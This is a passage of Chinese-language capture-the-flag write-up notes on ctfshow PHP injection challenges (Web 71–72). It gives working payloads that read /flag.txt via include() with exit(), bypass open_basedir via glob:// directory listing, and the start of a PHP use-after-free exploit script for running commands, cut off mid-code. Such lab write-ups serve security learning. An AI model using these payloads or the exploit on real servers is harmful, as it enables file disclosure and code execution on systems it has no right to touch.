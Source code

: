 payload示例：

```
c=include('/flag.txt');ob_flush();
```
![[Pasted image 20240922210001.png]]
### 法二

提前终止程序，即执行完代码直接退出，可以调用的函数有：

```
exit();
die();
```

payload示例：

```
c=include('/flag.txt');exit();
```
![[Pasted image 20240922210027.png]]
# Web 72
不让使用`scandir("/");`
```
尝试使用 scandir() 函数来扫描根目录，但由于 open_basedir 限制，这个操作被禁止了。

open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。

当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。
```
输入payload如果不管用，有可能是因为换行，我们把payload中的所有换行符删掉就管用了：
```
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();
```

![[Pasted image 20240922212816.png]]
```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```
![[Pasted image 20240922213109.png]]
## ?What is uaf script?
再使用UAF脚本，读出`flag0.txt`:
```PHP
<?php
 
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;
 
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
```